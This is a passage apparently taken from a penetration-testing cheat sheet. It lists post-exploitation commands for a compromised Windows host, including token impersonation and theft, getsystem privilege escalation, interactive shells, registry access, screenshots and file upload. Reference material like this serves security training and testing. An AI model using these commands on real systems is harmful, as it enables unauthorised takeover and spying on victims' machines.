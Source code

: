 * **Impersonate a token:**

```bash
impersonate_token <DOMAIN\\USERNAME>
```

* **Steal a process token:**

```bash
steal_token <pid>
```

* **Stop token impersonation:**

```bash
drop_token
```

* **Attempt privilege escalation to SYSTEM:**

```bash
getsystem
```

* **Drop into an interactive shell:**

```bash
shell
```

* **Run a command interactively:**

```bash
execute -f <cmd.exe> -i
```

* **Revert to the original user:**

```bash
rev2self
```

* **Interact with the registry:**

```bash
reg <command>
```

* **Switch to another desktop:**

```bash
setdesktop <number>
```

* **Capture a screenshot:**

```bash
screenshot
```

* **Upload a file to the target:**

```bash
upload <file>
```
